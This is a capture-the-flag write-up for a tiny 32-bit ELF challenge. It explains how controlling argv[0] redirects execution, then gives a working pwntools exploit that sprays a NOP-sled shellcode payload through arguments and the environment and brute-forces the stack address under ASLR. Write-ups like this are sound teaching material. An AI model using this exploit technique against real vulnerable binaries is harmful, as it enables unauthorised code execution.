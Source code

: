 This challenge is quite tiny, we are dealing with a 32-bit ELF binary that is literally 90 bytes,
only 6 of which account for code with the rest constituting ELF and program headers.
Here are these important 6 bytes (extracted with Ghidra):

```
                      ************************************************
                      *                   FUNCTION                   *
                      ************************************************
                      undefined processEntry entry()
          undefined     AL:1              <RETURN>
                      entry                                 XREF[2]:  Entry Point(*),
                                                                      08048018(*)
   08048054 58         POP         EAX
   08048055 5a         POP         EDX
   08048056 8b 12      MOV         EDX, dword ptr [EDX]
   08048058 ff d2       CALL        EDX
```
The program pops two values from the stack and jumps to the dereferenced second one (stored in `edx`).
This might seem random, to get a better idea for what's happening let's debug the binary:

```
❯ gdb tiny_easy
(gdb) starti
Starting program: /home/martician/tiny_easy

Program stopped.
0x08048054 in ?? ()
(gdb) x/10x $esp
0xffffd5a0:	0x00000001	0xffffd782	0x00000000	0xffffd79c
0xffffd5b0:	0xffffd7ab	0xffffd7dc	0xffffd807	0xffffd841
0xffffd5c0:	0xffffd86b	0xffffd893
(gdb) x/s 0xffffd782
0xffffd782:	"/home/martician/tiny_easy"
(gdb) x/s 0xffffd79c
0xffffd79c:	"SHELL=/bin/zsh"
(gdb)
```
It looks like prior to the execution of the binary the OS sets the process image
so that arguments and environment variables together with pointers to them are stored on the stack.
We can observe that on the top of the stack we have `argc` which is the number of arguments
passed to the program, then we have the argument pointers and environment variable pointers arrays
`argv[]` and `envp[]` both terminated by `NULL` pointers.

The program pops `agrc` into `eax` (it basically discards it)
then pops `argv[0]` into `edx`, dereferences it (treating is as a 4-byte integer)
and jumps to it (via the `call` instruction).
This means that by manipulating `argv[0]` we could jump to (almost) any address in the binary.
Since the `tiny_easy` file is a static executable there aren't really many places of interest to us,
there is just the stack and fortunately it is executable (NX is disabled):
```
❯ checksec --file=tiny_easy
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
No RELRO        No canary found   NX disabled   No PIE          N/A        N/A          No Symbols	N/A	0		0		tiny_easy
```

From here the exploit looks clear:

- Encode shellcode in some of the arguments/environment variables.
- Set `argv[0]` to have the address of the shellcode.

There is one problem we need to concern ourselves with and that is ASLR.
Basically, since the address space is randomized, there is no fixed location for the stack.
However this security measure is relatively effective,
the stack still has to grow downwards so there is a limit for the range in which the OS puts it
(that's especially true for 32-bit binaries which don't have address space to spare).

By running the binary through a debugger we can observe that upon entry the top of the stack
lies in the address range `[0xff000000, 0xffffffff]` (this might even be a bit generous).
That's  a total of $2^{24}$ or around $17$ million addresses! Would we be able to bruteforce it?
Yes, by using a trick we can actually skip most of the addresses without missing our shellcode.
I have put more detailed comments in the code bellow to illustrate the idea:
```python
from pwn import *

# Silence info messages.
context.log_level = 'warning'
# Make the payload as long as possible (via nop sled)
# This will not only increases our chances of a hit but
# also allow us to make bigger jumps when bruteforcing the addresses.
payload = asm(shellcraft.nop() * (2**17 - 100) + shellcraft.cat('flag'))

# Contaminate the arguments and the environment as much as possible.
# This I pretty much got from https://alexsieusahai.github.io/Pwnable_kr-tiny-easy/
env = {str(i) : payload for i in range(10)}
argv = [b'junk'] + [payload] * 5

# bruteforce argv[0]
# As commented above we can make big jumps (i.e. 2**16 since the payload is bigger)
for i in range(0xff010101, 0xffffffff, 0x10000):
    argv[0] = p32(i)
    proc = process(argv=argv, executable='/home/tiny_easy/tiny_easy', env=env)
    rez = proc.recvall()
    if rez:
        print(rez)
```

Finally, if you are impatient you can go get some popcorn,
it takes about a minute or two to start hitting the correct addresses:

```
tiny_easy@pwnable:~$ python /tmp/ez/ez.py
*flag*

*flag*

*flag*

...
```
